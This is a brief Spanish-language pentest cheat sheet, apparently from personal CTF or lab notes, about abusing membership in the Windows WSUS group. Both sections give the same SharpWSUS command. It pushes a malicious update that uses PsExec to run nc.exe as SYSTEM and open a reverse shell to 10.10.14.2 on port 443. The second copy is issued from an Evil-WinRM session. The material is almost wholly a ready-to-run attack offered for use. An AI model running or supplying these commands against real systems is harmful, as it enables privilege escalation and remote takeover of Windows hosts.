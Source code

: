 # Groups

# Groups

## Abuso del grupo WSUS

```
PS C:\Windows\Temp\Privesc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

## Rerverse shell con Psexec

```
*Evil-WinRM* PS C:\Windows\Temp\Privesc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```